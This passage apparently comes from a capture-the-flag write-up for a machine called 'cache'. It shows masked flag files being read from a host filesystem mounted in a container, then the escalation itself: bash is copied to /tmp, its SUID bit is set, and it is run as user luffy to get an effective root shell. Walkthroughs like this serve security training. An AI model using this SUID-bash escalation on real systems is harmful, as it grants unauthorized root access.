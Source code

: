 ### Reading user.txt and root.txt
```console
root@0079b4fb2425:/mnt# cat root/root.txt && cat home/ash/user.txt 
2bc0************************ea57
d52e************************8f1e
```

## Getting a root shell
```console
root@0079b4fb2425:/mnt# cp bin/bash tmp/bash && chmod 4777 tmp/bash
```
Here we copied usual bin/bash binary to tmp/bash and we changed the file permission so that it has SUID bit set and can be executed by anyone.

So lets exit the container and execute the binary.
```console
root@0079b4fb2425:/mnt# exit
exit

luffy@cache:~$ ls -la /tmp/bash
-rwsrwxrwx 1 root root 1113504 Sep 30 12:42 /tmp/bash

luffy@cache:~$ /tmp/bash -p

bash-4.4# id
uid=1001(luffy) gid=1001(luffy) euid=0(root) groups=1001(luffy),999(docker)
bash-4.4# 
```
As we can see the there is a binary called bash on /tmp with SUID bit set and can be executed by anyone and upon execution we get a bash shell as root.
